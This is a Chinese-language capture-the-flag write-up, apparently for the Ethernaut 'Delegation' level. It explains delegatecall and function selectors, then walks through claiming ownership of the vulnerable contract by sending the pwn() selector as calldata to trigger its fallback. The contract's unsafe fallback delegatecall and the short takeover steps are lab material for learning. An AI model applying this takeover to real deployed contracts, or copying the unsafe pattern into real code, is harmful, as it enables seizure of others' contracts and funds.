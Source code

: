 ### 第六题 Delegation
### 题目
获得合约的所有权.
### 提示
- 仔细看solidity文档关于 delegatecall 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
- Fallback 方法
- 方法 ID
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;
    constructor(address _owner) {
        owner = _owner;
    }
    //将合约的拥有者地址设置为调用者的地址
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    // delegate 是一个 Delegate 合约的实例
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    //回退函数，当调用的函数不存在时会被触发。它使用delegatecall将调用委托给delegate合约。
    fallback() external {
        //address(delegate) 将该变量转换为 address 类型
        //msg.data 是当前调用的数据负载（calldata），包含了函数选择器和参数。它通常用于将调用的输入         //数据传递给目标合约。      
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            //this 关键字指代当前合约,但不会执行任何操作
            this;
        }
    }
}
```
### 知识点
#### 1.delegatecall 
 Delegatecall 是本地合约委托调用其它合约的一种 Low-level 方法。当 A 合约使用 delegatecall 调用 B 合约的某 function，所有执行时的资料、状态改变都发生在 A 合约 storage 内而非 B 合约。相当于把B合约的所有函数复制到A合约，使用和修改的都是A合约的数据。
工作原理：  
- 上下文共享：被调用合约（B）的代码在调用合约（A）的上下文中执行。这意味着所有的状态变量修改都发生在 A 合约的存储中，而不是 B 合约的存储中。
- msg.sender 和 msg.value 不变：调用合约的 msg.sender 和 msg.value 保持不变，这意味着调用者的信息不会改变。
注意事项：  
- 存储布局：调用合约和被调用合约的存储布局必须一致，否则可能会导致意外的行为。  
- 安全性：由于 delegatecall 允许被调用合约修改调用合约的状态，因此在使用时需要特别小心，以防止潜在的安全漏洞。  
delegatecall和call的区别：  
- 当用户A通过合约B来call合约C的时候，执行的是合约C的函数，上下文(Context，可以理解为包含变量和状态的环境)也是合约C的：msg.sender是B的地址，并且如果函数改变一些状态变量，产生的效果会作用于合约C的变量上。   

- 而当用户A通过合约B来delegatecall合约C的时候，执行的是合约C的函数，但是上下文仍是合约B的：msg.sender是A的地址，并且如果函数改变一些状态变量，产生的效果会作用于合约B的变量上。  

可以这样理解：一个投资者（用户A）把他的资产（B合约的状态变量）都交给一个风险投资代理（C合约）来打理。执行的是风险投资代理的函数，但是改变的是资产的状态。
delegatecall语法和call类似，也是：  
目标合约地址.delegatecall(二进制编码);  
其中二进制编码利用结构化编码函数abi.encodeWithSignature获得：  
abi.encodeWithSignature("函数签名", 逗号分隔的具体参数)  
函数签名为"函数名（逗号分隔的参数类型）"。例如abi.encodeWithSignature("f(uint256,address)", _x, _addr)。  
资料来源https://github.com/AmazingAng/WTF-Solidity/tree/main/23_Delegatecall
#### 2.ABI编码  
https://github.com/AmazingAng/WTF-Solidity/tree/main/27_ABIEncode
#### 3.函数选择器 (Function Selector)  
https://github.com/AmazingAng/WTF-Solidity/tree/main/29_Selector
#### 4.sendTransaction
sendTransaction函数可以用来发送以太币或调用智能合约中的函数。它的基本语法如下：  
```solidity
address.sendTransaction({
    from: senderAddress,  //from: 发送交易的地址  
    to: receiverAddress, //to: 接收交易的地址，可以是一个普通地址或智能合约地址。  
    value: amountInWei, // value: 发送的以太币数量，以Wei为单位。  
    gas: gasLimit,      // gas: 交易的最大Gas限制。  
    gasPrice: gasPriceInWei, // gasPrice: 每单位Gas的价格，以Wei为单位。  
    data: encodedFunctionCall // data: 要调用的函数及其参数的编码数据。  
});
```
### 解题思路
- 使用delegatecall调用delegate合约的pwn函数  
- 而delegatecall在fallback函数里，需要想办法来触发它  
- 只要直接调用Delegation合约，给予正确的calldata abi.encodeWithSignature("pwn()")，会因为找不到函数而进入回退函数，进而使用delegatecall(msg.data)调用Delegate 合约的 pwn() ，  
### 解题过程
1.获取实例
2.``var callData = web3.utils.keccak256("pwn()")`` // 准备好callData  
3.``contract.sendTransaction({data:callData});`` // 使用封装好的sendTransaction来发送data  
4.``await.contract.owner()`` //检查合约的owner  
5.提交  
